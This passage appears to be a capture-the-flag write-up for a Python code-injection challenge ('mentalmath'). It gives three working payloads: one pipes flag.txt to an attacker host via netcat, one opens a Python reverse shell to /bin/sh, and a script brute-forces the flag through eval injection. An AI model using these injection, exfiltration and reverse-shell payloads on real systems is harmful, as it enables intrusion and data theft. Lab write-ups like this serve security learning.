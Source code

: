 - You could easily listen on a port with netcat and pipe the flag :

```json
{
    "problem" : "__import__('os').popen('cat flag.txt | nc <attacker-ip> <attacker-port>')",
    "answer" : "1",
}

```

- A more complicated solution would be catching a reverse shell using something like :

```json
{
    "problem" : "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);",
    "answer" : "1",
}

```

- Or you could like my mosachistic solution which bruteforces each char of the flag and outputs correct only if the character was found. Don't blame me, I wasn't aware that you could access the network from within the application :(

```python
#!/bin/python
from time import sleep

import requests
import string

headers = {
    'Connection': 'keep-alive',
    'Accept': '*/*',
    'Origin': 'http://mentalmath.tamuctf.com',
    'X-Requested-With': 'XMLHttpRequest',
    'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.122 Safari/537.36',
    'Content-Type': 'application/x-www-form-urlencoded; charset=UTF-8',
    'Referer': 'http://mentalmath.tamuctf.com/play/',
    'Accept-Language': 'it-IT,it;q=0.9,en-US;q=0.8,en;q=0.7,fr;q=0.6',
}

dic = string.ascii_lowercase + string.ascii_uppercase + string.digits + "!$()-.@[]^_{}"
currentletter = 0
currentdic = 0
result = ""

while 1:
    print("[*] Trying {}{}".format(result, dic[currentdic]))
    data = {
      'problem' : "open('flag.txt','r').read()[{}] == '{}'#".format(currentletter, dic[currentdic]),
      'answer': '1',
    }
    response = requests.post('http://mentalmath.tamuctf.com/ajax/new_problem', headers=headers, data=data, verify=False)
    resp = str(response.content)
    if '"correct": true' in resp:
        print("[*] Found letter : {}".format(dic[currentdic]))
        result = result + dic[currentdic]
        if dic[currentdic] == '}':
            print("[*] Found Flag : {}".format(result))
            break
        currentdic = 0
```